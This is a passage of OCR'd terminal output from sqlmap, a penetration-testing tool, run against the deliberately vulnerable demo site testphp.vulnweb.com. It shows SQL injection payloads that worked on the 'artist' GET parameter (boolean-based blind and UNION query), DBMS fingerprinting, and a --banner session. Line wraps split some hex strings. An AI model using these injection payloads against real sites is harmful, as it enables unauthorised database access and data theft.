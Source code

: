 ```shell
VALUE)'
[xx:xx:15] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEX
ML)'
[xx:xx:15] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[xx:xx:15] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[xx:xx:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[xx:xx:15] [INFO] automatically extending ranges for UNION query injection techn
ique tests as there is at least one other (potential) technique found
[xx:xx:15] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[xx:xx:15] [INFO] target URL appears to have 3 columns in query
[xx:xx:16] [INFO] GET parameter 'artist' is 'Generic UNION query (NULL) - 1 to 2
0 columns' injectable
GET parameter 'artist' is vulnerable. Do you want to keep testing the others (if
 any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 39 HTTP(s) re
quests:
---
Parameter: artist (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: artist=1 AND 5707=5707

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: artist=-7983 UNION ALL SELECT CONCAT(0x716b706271,0x6f6c506a7473764
26d58446f634454616a4c647a6c6a69566e584e454c64666f6861466e697a5069,0x716a786a71),
NULL,NULL-- -
---
[xx:xx:16] [INFO] testing MySQL
[xx:xx:16] [INFO] confirming MySQL
[xx:xx:16] [INFO] the back-end DBMS is MySQL
web application technology: Nginx, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.0
[xx:xx:16] [INFO] fetched data logged to text files under '/home/stamparm/.sqlma
p/output/testphp.vulnweb.com'
sqlmap-shell> -u "http://testphp.vulnweb.com/artists.php?artist=1" --banner
         _
 ___ ___| |_____ ___ ___  {1.0-dev-2188502}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual
 consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not respon
sible for any misuse or damage caused by this program

[*] starting at xx:xx:25

[xx:xx:26] [INFO] resuming back-end DBMS 'mysql'
[xx:xx:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: artist (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: artist=1 AND 5707=5707

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: artist=-7983 UNION ALL SELECT CONCAT(0x716b706271,0x6f6c506a7473764
```